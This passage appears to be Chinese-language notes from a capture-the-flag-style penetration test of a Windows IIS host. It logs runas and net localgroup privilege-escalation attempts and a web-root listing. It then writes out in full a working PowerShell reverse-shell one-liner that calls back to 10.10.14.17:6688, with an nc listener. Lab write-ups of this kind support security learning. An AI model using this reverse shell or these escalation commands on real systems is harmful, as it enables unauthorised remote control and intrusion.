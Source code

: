 ```
runas /user:Administrator cmd
123456
没有任何提示，例如"The command completed successfully."，应该失败了
查了一下，cmd只能注销用户再以其他用户登陆
-------------------------------------------------------------------------------
Administrator
The command completed successfully.

net localgroup Administrators security /add  尝试将本用户加入管理员组，失败。

net localgroup "Remote Desktop Users"
net localgroup "Remote Desktop Users" security /add   尝试加入远程桌面用户组

```
## 尝试1
web路径发现一个目录，浏览器访问以及telnet访问无权限。于是google一下。
```
C:\inetpub>cd wwwroot

C:\inetpub\wwwroot>dir
 Volume in dri

 C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\inetpub\wwwroot

08/24/2018  07:39 PM    <DIR>          .
08/24/2018  07:39 PM    <DIR>          ..
08/21/2018  10:30 PM    <DIR>          aspnet_client
08/23/2018  11:33 PM               391 index.html
08/24/2018  07:39 PM            88,712 out.jpg
               2 File(s)         89,103 bytes
               3 Dir(s)  16,623,439,872 bytes free

cd aspnet_client
```
```
http://10.10.10.98/aspnet_client/system_web/

403 - Forbidden: Access is denied.
You do not have permission to view this directory or page using the credentials that you supplied.
```
IIS 7.5源代码披露/身份验证绕过
https://blog.alertlogic.com/blog/internet-information-server-(iis)-exploitation/

## 尝试2，powershell反弹shell
```
nc -lnvp 6688

copy con whale.ps1

$client = New-Object System.Net.Sockets.TCPClient('10.10.14.17',6688);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

Yes

type whale.ps1
```
